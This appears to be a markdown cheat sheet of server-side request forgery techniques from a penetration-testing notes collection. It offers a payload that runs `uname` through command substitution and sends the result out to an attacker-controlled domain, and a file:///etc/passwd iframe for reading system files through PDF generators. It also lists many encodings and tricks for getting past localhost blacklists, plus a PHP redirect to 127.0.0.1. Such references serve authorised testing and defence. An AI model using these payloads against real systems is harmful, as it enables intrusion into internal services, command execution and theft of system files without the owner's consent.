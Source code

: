 # SSRF


## RCE
If you have SSRF, test for RCE with this payload:

```
`uname`.mydomain.com
```

---

## Blacklist bypass
* Pass URL encoded parameters in order to achieve parameter injection
* Use `<iframe src="file:///etc/passwd>` with PDF generators
* URL encode `localhost` to `%6c%6f%63%61%6c%68%6f%73%74`
* Change HTTP version from `1.1` to `0.9` and remove the Host header
* Try `127.0.0.1::ffff::` or `::ffff:127.0.0.1`
* Mix case `LoCaLhOsT`
* Embed credentials `http://attacker@localhost`
* Use URL fragments `http://attacker#localhost`
* Add directory `http://localhost/random`
* Try using an IPv6 address as sometimes blacklists do not block them

### Redirect
Make a request to a page that you control with the following code:

```php
<?php header("location: http://127.0.0.1"); ?>
```
### DNS
* Use these tools to bypass internal hostnames
	* [nip.io](http://nip.io)
	* [xip.io](http://xip.io/)
  * [1u.ms](http://1u.ms/)
	* [sslip.io](https://sslip.io/)

### Encoding
Try different encodings:

* Hex `0x7f.0x0.0x0.0x1`
* Octal `0177.0.0.01`
* Url `http://%31%32%37%2e%30%2e%30%2e%31`
* Dword [`http://2130706433`]
* Remove spaces `0177000000000001`
* Mix them `0177.0.0.0x1`
* `http://31.10.590` converts to [`http://31.10.2.78/`] because (2\*256)+78
* Convert the IP address to binary representation like `01111111.00000000.00000000.00000001` and after removing the dots convert the number in decimal and you get [`http://2130706433`](http://127.0.0.1/)
* Add zeroes `http://127.0.0000000.1/`
